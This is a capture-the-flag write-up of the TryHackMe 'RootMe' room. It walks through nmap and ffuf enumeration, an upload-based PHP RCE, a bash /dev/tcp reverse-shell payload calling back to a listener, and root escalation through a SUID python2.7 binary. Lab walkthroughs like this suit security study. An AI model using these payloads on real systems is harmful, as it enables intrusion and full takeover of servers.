

# RootMe

**Platform** - TryHackMe  
**Difficulty** - Easy  
**Date** - March 31, 2026  
**IP** - 10.146.154.92  
**OS** - Linux

---

RootMe is an easy-difficulty TryHackMe CTF challenge that requires knowledge of port scanning with Nmap, web fuzzing, remote code execution (RCE), and Linux privilege escalation. The main attack vector is an RCE vulnerability, exploited by uploading a malicious file to the server in order to gain access to a remote shell.

The challenge was approached through the following steps:

1. Port enumeration
    1. Service analysis
2. Web enumeration (Fuzzing)
    1. Results analysis and research on possible vulnerabilities
    2. RCE exploitation
3. Privilege escalation

## Enumeration

### NMAP

```bash
❯ sudo nmap -sV -sS 10.146.154.92
[sudo] password for parrot: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-26 17:14 CST
Nmap scan report for 10.146.154.92
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.41 seconds
```

After performing the port scan, we can observe that only two ports are open:

- 22 - SSH (OpenSSH **8.2p1**)
    - Secure Shell service. Nothing can be done without valid credentials.
- 80 - HTTP (Apache httpd 2.4.41)
    - Active web server worth inspecting in detail for hidden directories, sensitive files, or known vulnerabilities in this version.

### HTTP



When inspecting port 80, we find a page that contains no relevant information at first glance. However, this does not rule out the existence of hidden directories, so the next step is directory enumeration.

### FFUF

```bash
❯ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -u http://10.146.154.92/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.146.154.92/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 79ms]
panel                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 76ms]
js                      [Status: 311, Size: 311, Words: 20, Lines: 10, Duration: 99ms]
uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 78ms]
:: Progress: [20000/20000] :: Job [1/1] :: 453 req/sec :: Duration: [0:00:52] :: Errors: 0 ::
```

Using ffuf to enumerate directories, the tool reveals the existence of the /css, /panel, /js, and /uploads directories, which are worth inspecting as they could contain upload forms or administration panels.


The /panel subdirectory shows that we can upload files to the server — this is interesting, as we could inject a file with a malicious command to obtain a remote shell.

## Exploitation

```bash
❯ cat id.phtml
<?php echo shell_exec('id'); ?>
```

The /panel directory exposes a form that allows uploading files to the server, which is relevant from an offensive standpoint, as we could inject a malicious file to obtain a remote shell.

To verify whether the server is vulnerable to RCE, we start by uploading a simple PHP file that executes the `id` command and returns its output.


The server returns the output of the `id` command, confirming that it is vulnerable to RCE.

```bash
❯ cat shell.phtml
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.128.40/4444 0>&1'"); ?>
```

Next, we create a payload that establishes a reverse shell to gain access to the server.

```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.128.40] from (UNKNOWN) [10.146.154.92] 58760
bash: cannot set terminal process group (792): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-146-154-92:/var/www/html/uploads$ ls
ls
```

Using Netcat, we set up a listener to receive the incoming connection and obtain the shell. Once received, we proceed to stabilize it with the following steps:

1. Spawn a TTY with Python:

    ```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    ```

2. Background the process and configure the terminal:

    ```bash
    Ctrl + Z
    stty raw -echo; fg
    ```

3. Set environment variables:

    ```bash
    export TERM=xterm
    export SHELL=bash
    ```

    With the shell stabilized, the next step is to escalate privileges to gain root access.

    ```bash
    www-data@ip-10-146-154-92:/$ find / -perm -4000 2>/dev/null
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/snapd/snap-confine
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/bin/newuidmap
    /usr/bin/newgidmap
    /usr/bin/chsh
    /usr/bin/python2.7
    /usr/bin/at
    /usr/bin/chfn
    /usr/bin/gpasswd
    /usr/bin/sudo
    /usr/bin/newgrp
    /usr/bin/passwd
    /usr/bin/pkexec
    ...
    /bin/mount
    /bin/su
    /bin/fusermount
    /bin/umount
    ```

    #### SUID Binaries — Normal vs Suspicious

    #### Normal — expected on any Linux system

    These binaries require SUID to function correctly by system design:

    | Binary | Why it's normal |
    | --- | --- |
    | `/bin/su` | Switching users requires root access |
    | `/bin/mount` / `umount` | Mounting drives requires privileges |
    | `/bin/fusermount` | Same case as mount |
    | `/usr/bin/sudo` | By definition needs to run as root |
    | `/usr/bin/passwd` | Needs to modify `/etc/shadow` |
    | `/usr/bin/chsh` / `chfn` | Modify user info in `/etc/passwd` |
    | `/usr/bin/newgrp` | Change active group |
    | `/usr/bin/gpasswd` | Manage groups |
    | `/usr/bin/newuidmap` / `newgidmap` | User namespaces |
    | `/usr/bin/at` | Scheduling tasks requires privileges |
    | `/usr/bin/pkexec` | PolicyKit authentication |

    For privilege escalation, we enumerate all binaries with the SUID bit set, looking for one that allows us to elevate our privileges. Among the results, `/usr/bin/python2.7` stands out — it should not have SUID assigned. Consulting GTFOBins, we find that it can be exploited as follows:

    ```bash
    www-data@ip-10-146-154-92:/$ python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
    # whoami
    root
    ```

    Python allows us to escalate privileges due to the SUID bit. With this bit active, the binary runs with the privileges of its owner (root) instead of the invoking user (www-data). The `-p` flag tells the shell to preserve those elevated privileges rather than dropping them on startup, granting us a root shell.
